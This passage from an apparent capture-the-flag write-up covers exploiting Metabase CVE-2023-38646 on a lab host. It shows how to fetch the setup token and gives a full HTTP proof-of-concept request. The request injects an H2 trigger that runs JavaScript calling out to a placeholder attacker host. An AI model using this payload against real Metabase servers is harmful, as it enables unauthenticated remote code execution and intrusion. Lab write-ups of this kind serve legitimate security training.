 Googling Metabase reveals that such a service is vulnerable to an unauthenticated RCE: CVE 2023-38646. This blogpost was followed as a reference: [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/). 

The exploit, first, requires retrieving a valid token. The token can be obtained via an unauthenticated request to the "/api/session/properties" endpoint ("setup-token" property from response)

![](img/analytics5.png)

It is possible to perform SSRF using the following POC:

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json

{
    "token": "<SETUP_TOKEN_VALUE>",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('http://<IP_ATTACKER>/pwn134').openConnection().getContentLength()\n$$--=x\\;",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
